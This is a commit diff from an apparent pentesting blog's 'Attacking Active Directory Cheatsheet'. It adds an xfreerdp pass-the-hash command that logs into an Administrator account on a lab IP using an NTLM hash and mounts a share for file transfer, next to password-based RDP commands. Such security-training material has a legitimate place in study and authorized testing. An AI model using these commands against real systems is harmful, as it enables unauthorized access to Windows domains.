

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 11409 px. Shown: the whole window, without its empty margins (228-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -386,11 +386,14 @@
 ### xfreerdp - Access RDP with Password or Pass-the-Hash
 ```shell
 # Create "/home/kali/share" before using it - This folder will allow us to move files easily from inside the xfreerdp session
-# Example 1
+# Connection with share for file transfers
 xfreerdp /u:Administrator /p:'Password123!' /v:172.16.150.10 /drive:share,/home/kali/share
 sudo xfreerdp /u:Administrator /p:'Password123!' /v:172.16.150.10 /drive:share,/home/kali/share
-# Example 2
+# With extra parameters
 xfreerdp /cert-ignore /auto-reconnect /h:1000 /w:1600 /v:172.16.150.10 /u:Administrator /p:'Password123!' /d:vorkharium.com /drive:share,/home/kali/share
+# Using hash
+xfreerdp /u:Administrator /pth:'1a06b4248879e68a498d3bac51bf91c9' /v:172.16.150.10 /drive:share,/home/kali/share
+
 ```
 ### Kerberoasting with Impacket
 ```shell
````
